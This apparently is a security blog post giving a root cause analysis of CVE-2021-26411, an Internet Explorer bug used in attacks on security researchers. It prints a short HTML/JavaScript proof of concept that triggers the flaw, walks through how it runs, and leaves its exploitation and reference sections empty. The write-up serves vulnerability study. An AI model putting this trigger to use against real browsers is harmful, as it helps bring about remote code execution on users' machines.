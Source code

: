 ```yaml
---
layout: post
toc: true
title: "RCA of CVE-2021-26411"
tags: [IE, 0day, In The Wild]
author:
  - @iamelli0t
---
```


In January of this year, Google and Microsoft respectively published blogs revealing attacks on security researchers by an APT group in North Korea[1][2]. A vulnerability in Internet Explorer used in this attack was fixed as CVE-2021-26411 in Microsoft's Patch Tuesday this month[3]. The vulnerability is triggered when users of the affected version of Internet Explorer access a malicious link constructed by the attacker, causing remote code execution.

## root casue analysis
The POC that can trigger the vulnerability is shown below:
```html
<script>
var elem = document.createElement('xxx'); 
var attr1 = document.createAttribute('yyy'); 
var attr2 = document.createAttribute('zzz'); 

var obj = {};
obj.valueOf = function() {
	elem.clearAttributes();
	return 0x1337;
};

attr1.nodeValue = obj;
attr2.nodeValue = 123;
elem.setAttributeNode(attr1);
elem.setAttributeNode(attr2);
elem.removeAttributeNode(attr1); 
</script>
```

Execution process of POC:
1. Create 1 HTML Element object (elem) and 2 HTML Attribute objects (attr1 and attr2)
2. Assign a value to the nodeValue of two Attribute objects, where attr1's nodeValue points to an Object that overloads ValueOf
3. Bind two Attribute objects attr1 and attr2 to Element object elem
4. Call elem.removeAttributeNode(attr1) to remove the attribute attr1 object of 'xxx'
5. The removeAttributeNode method triggers a callback to the valueOf function, during which clearAttributes() is called to clear all attribute objects bound by the eLEM object: attr1 and attr2
6. ValueOf callback returns, IE Tab process crashes at null pointer dereference:


## from nullptr dereference to read/write primitive


## some thoughts


## refrences
